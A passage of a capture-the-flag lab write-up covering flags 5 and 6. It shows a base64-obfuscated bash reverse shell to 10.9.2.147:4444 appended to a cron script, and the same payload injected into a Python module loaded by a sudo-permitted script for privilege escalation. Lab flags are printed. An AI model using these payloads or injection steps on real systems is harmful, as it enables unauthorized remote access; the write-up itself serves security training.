

We can modify the file `/home/toby/jobs/cow.sh` and put there the reverse shell from `penelope`:

```bash
echo -e 'printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash' >> /home/toby/jobs/cow.sh
```

And now just wait for the reverse shell from user `mat`, which happen in 1 minute.



and now grab flag 5



```bash
mat@ip-10-10-51-12:~$ cat flag_5.txt 
FLAG{live_by_the_cow_die_by_the_cow}
```

### Flag 6 execute code when python module loaded

First we can find `note.txt`:

```bash
mat@ip-10-10-51-12:~$ cat note.txt 
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will
```

We can check sudo permissions using `sudo -l`:
```bash
mat@ip-10-10-51-12:~$ sudo -l
Matching Defaults entries for mat on ip-10-10-51-12:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mat may run the following commands on ip-10-10-51-12:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```

Let's read all the scripts, to realize what we can do.
```bash
mat@ip-10-10-51-12:~$ cat /home/mat/scripts/will_script.py
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
        print("Invalid command!")
        exit()

os.system(cmd)
mat@ip-10-10-51-12:~$ cd scripts/
mat@ip-10-10-51-12:~/scripts$ ls -l
total 12
-rw-r--r-- 1 mat  mat   133 Dec  3  2020 cmd.py
drwxrwxr-x 2 will will 4096 Nov 18 12:47 __pycache__
-rw-r--r-- 1 will will  208 Dec  3  2020 will_script.py
mat@ip-10-10-51-12:~/scripts$ cat cmd.py 
def get_command(num):
        if(num == "1"):
                return "ls -lah"
        if(num == "2"):
                return "id"
        if(num == "3"):
                return "cat /etc/passwd"
```

Okay, so we can execute `/home/mat/scripts/will_script.py` as user `will`, and it uses the script `/home/mat/scripts/cmd.py` which `mat` owns. 



We can modify `/home/mat/scripts/cmd.py` and then execute `/home/mat/scripts/will_script.py` as will, and get shell of user `will`.

> When you import a module, Python will run all the code that's in that module.

This will be our new `/home/mat/scripts/cmd.py`, now, when importing module cmd.py, it will execute `print("GG")`.
```py
print("GG")

def get_command(num):
        if(num == "1"):
                return "id"
        if(num == "2"):
                return "id"
        if(num == "3"):
                return "cat /etc/passwd"
```



Now, let's put our reverse shell:
```py
import os; os.system("printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash")
```

This is the code:
```bash
echo -e 'import os; os.system("printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash")' >> /home/mat/scripts/cmd.py 
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py "1"
```



and now grab flag 6:



```bash
will@ip-10-10-51-12:~$ cat flag_6.txt 
FLAG{but_i_thought_my_script_was_secure}
```

### Flag 7 


### Privilege Escalation to Root


